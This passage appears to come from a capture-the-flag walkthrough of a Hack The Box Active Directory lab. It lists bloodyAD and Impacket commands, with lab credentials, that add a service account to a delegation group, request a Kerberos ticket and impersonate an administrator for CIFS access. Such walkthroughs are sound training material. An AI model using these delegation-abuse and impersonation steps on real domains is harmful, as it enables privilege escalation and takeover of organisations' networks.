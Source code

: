 **E.G. ERROR in R9.**

![](images/media/image31.png){width="6.298611111111111in"
height="0.9715277777777778in"}

**If an Error occurs in R9. do this RUN**

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -u c.neri_adm -p \"Uncr4ck4bl3P4ssW0rd0312\" -k add
groupMember \"DELEGATEDADMINS\" \"SVC_SQL\"**

![](images/media/image25.png){width="6.298611111111111in"
height="0.2986111111111111in"}

**[RERUN R8 commands (get the ticket for this SVC)]{.mark}**

**RUN: impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip
dc01.vintage.htb**

**RUN: export KRB5CCNAME=svc_sql.ccache**

![](images/media/image32.png){width="3.1184831583552057in"
height="0.7139873140857392in"}

**R9.1.**

INFO: [RERUN R9 commands]{.mark}

**RUN: impacket-getST -spn \'cifs/dc01.vintage.htb\' -impersonate
L.BIANCHI_ADM -dc-ip 10.10.11.45 -k \'vintage.htb/svc_sql:Zer0the0ne\'**

![](images/media/image33.png){width="5.255924103237096in"
height="0.7800306211723534in"}
